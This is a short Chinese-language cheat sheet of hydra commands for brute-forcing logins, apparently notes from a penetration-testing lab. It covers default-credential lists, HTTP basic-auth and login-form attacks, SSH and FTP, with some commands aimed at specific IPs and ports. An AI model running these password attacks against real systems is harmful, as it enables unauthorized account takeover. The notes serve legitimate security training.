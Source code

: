 
## 默认密码攻击

下面这个仓库有一些默认密码
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

使用hydra进行默认密码爆破
sudo hydra -C ftp-pass.txt 94.237.54.75 -s 43247 http-get / 

-C ftp-betterdefaultpasslist.txt	组合凭证词汇表
SERVER_IP	                        目标IP
-s PORT	                            目标端口
http-get	                        请求方式
/	                                目标路径

## 用户名暴力破解
得到用户或密码时可以通过hydra来爆破
hydra -l admin -P rockyou.txt  -u -f 94.237.49.138 -s 43678 http-get /

## 登录界面表单爆破

hydra -l admin -P /usr/share/wordlists/rockyou.txt  94.237.63.93  -s 37751 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'" 



命令	                         描述
hydra -h	                    九头蛇帮助
hydra -C wordlist.txt SERVER_IP -s PORT http-get /	                        基本验证暴力破解 - 组合词表
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /	基本身份验证暴力破解 - 用户/密码单词列表
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"	登录表单暴力破解 - 静态用户，密码单词列表
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4	        SSH 暴力破解 - 用户/密码单词列表
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1	                        FTP 暴力破解 - 静态用户、密码字典